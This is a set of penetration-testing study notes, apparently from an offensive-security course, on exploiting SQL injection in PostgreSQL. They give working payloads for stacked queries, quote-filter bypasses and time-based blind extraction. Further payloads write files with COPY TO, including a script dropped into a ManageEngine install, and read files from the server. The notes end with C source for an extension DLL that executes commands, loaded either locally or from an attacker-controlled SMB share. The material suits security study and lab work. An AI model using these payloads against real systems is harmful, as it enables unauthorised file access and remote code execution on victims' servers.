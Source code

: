 # PostgreSQL

### Notes

- String manipulation functions: https://www.postgresql.org/docs/14/functions-string.html
- Postgres SQL-injection attacks allow an attacker to perform **stacked queries**. This means that we can use a query terminator character in our payload (;), and inject a completely new query into the original vulnerable query string. This makes exploitation much easier since neither the injection point nor the payload are limited by the nature of the vulnerable query.

### Checklist

- [x] Check if user is DBA: `SELECT current_setting('is_superuser'); //'on' or 'off'`

### Quoted String Bypass

**Piping**

You can select individual characters using their code points (numbers that represent characters) and concatenate them together using the double pipe (||) operator.

> Note: This does not work for all SQL statements. See below for further bypasses.

```
amdb=#SELECT CHR(65) || CHR(87) || CHR(65) || CHR(69);
 ?column?
----------
 AWAE
(1 row)
```

**Dollar-quoted String Constants**

[Lexical Structure](https://www.postgresql.org/docs/14/sql-syntax-lexical.html) in PostgreSQL allows other methods to represent strings. One is support for dollar-quoted string constants. Two dollar characters ($$) can be used as a quote (') substitute by themselves, or a single one ($) can indicate the beginning of a "tag". The tag is optional, can contain zero or more characters, and is terminated with a matching dollar ($). If used, this tag is then required at the end of the string as well:

```
SELECT 'AWAE';
SELECT $$AWAE$$;
SELECT $TAG$AWAE$TAG$;

CREATE TEMP TABLE AWAE(offsec text);INSERT INTO AWAE(offsec) VALUES ($$test$$);
COPY AWAE(offsec) TO $$C:\Program Files (x86)\PostgreSQL\9.2\data\test.txt$$;

COPY 1

Query returned successfully in 201 msec.
```

### Time-based Injection

Check if executing as DBA:
```
SELECT+case+when+(SELECT+current_setting($$is_superuser$$))=$$on$$+then+pg_sleep(10)+end;--+
```

### Write to a File

```
COPY (select $$awae$$) to <file_name>
COPY (select $$awae$$) to $$C:\pwnd.txt$$
```
> Postgres COPY TO function does not support newline control characters in a single SELECT statement.
> Use a base64 encoded, then URL encoded string to reliably write file contents. If the URL query string will exceed the max URL length (2048 characters), try convert method to POST.

Example:

```
COPY (SELECT convert_from(decode($$B64_URL_ENCODED_PAYLOAD$$,$$base64$$),$$utf-8$$)) TO $$C:\\Program+Files+(x86)\\ManageEngine\\AppManager12\\working\\conf\\\\application\\scripts\\wmiget.vbs$$;
```

1. We need to use base64 encoding to avoid any issues with restricted characters within the COPY TO function.
2. We also need to URL encode the payload so that nothing gets mangled by the web server itself.
3. Finally, we need to use the `convert_from` function to convert the output of the decode function to a human-readable format to be stored in the destination file.

### Read a File

```
DROP TABLE IF EXISTS awae;
CREATE temp table awae (content text);
COPY awae FROM $$c:\awae.txt$$;
SELECT content FROM awae;
DROP TABLE awae;
```

**Exfiltrating data (Blind)**

```
create+temp+table+awae+(content+text);copy+awae+from+$$c:\awae.txt$$;select+case+when(ascii(substr((select+content+from+awae),1,1))=104)+then+pg_sleep(10)+end;--+
```

### PostgreSQL Extensions

We can load an extension using the following syntax style:

`CREATE OR REPLACE FUNCTION test(text) RETURNS void AS 'FILENAME', 'test' LANGUAGE 'C' STRICT;`

**Loading a Custom Dynamic Library**

> The compiled extension we want to load must define an appropriate Postgres structure (magic block) to ensure that a dynamic library file is not loaded into an incompatible server. If the target library doesn't have this magic block (as is the case with all standard system libraries), then the loading process will fail.

```
CREATE OR REPLACE FUNCTION system(cstring) RETURNS int AS 'C:\Windows\System32\kernel32.dll', 'WinExec' LANGUAGE C STRICT;
SELECT system('hostname');
ERROR:  incompatible library "c:\Windows\System32\kernel32.dll": missing magic block
HINT: Extension libraries are required to use the PG_MODULE_MAGIC macro.

********** Error **********
```

As seen above, the loading process failed which means that a custom dynamic library must be compiled.

```
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
PGDLLEXPORT Datum awae(PG_FUNCTION_ARGS);
PG_FUNCTION_INFO_V1(awae);

/* this function launches the executable passed in as the first parameter
in a FOR loop bound by the second parameter that is also passed */
Datum
awae(PG_FUNCTION_ARGS)
{
	   /* convert text pointer to C string */
    #define GET_STR(textp) DatumGetCString(DirectFunctionCall1(textout, PointerGetDatum(textp)))

    /* retrieve the second argument that is passed to the function (an integer)
    that will serve as our counter limit*/
    int instances = PG_GETARG_INT32(1);

    for (int c = 0; c < instances; c++) {
        /*launch the process passed in the first parameter*/
        ShellExecute(NULL, "open", GET_STR(PG_GETARG_TEXT_P(0)), NULL, NULL, 1);
    }
	PG_RETURN_VOID();
}
```

The template above can be used to build a basic extension. We can initiate the build process by going to `Build > Build Solution` in Visual Studio.

The following queries will create and run a UDF called test, bound to the awae function exported by our custom DLL.

```
create or replace function test(text, integer) returns void as $$C:\awae.dll$$, $$awae$$ language C strict;
SELECT test($$calc.exe$$, 3);
```

To remove the DLL whilst debugging, use the following, then edit your extension code, re-compile, and re-test the extension:

```
c:\> net stop "Applications Manager"
c:\> del c:\awae.dll
c:\> net start "Applications Manager"
DROP FUNCTION test(text, integer);
```

**Load a remote DLL**

The source DLL file we are using for the UDF could be also located on a network share.

Start and SMB server: `kali@kali:~$ sudo impacket-smbserver awae /home/kali/awae/`

```
CREATE OR REPLACE FUNCTION remote_test(text, integer) RETURNS void AS $$\\192.168.119.120\awae\awae.dll$$, $$awae$$ LANGUAGE C STRICT;
SELECT remote_test($$calc.exe$$, 3);
```
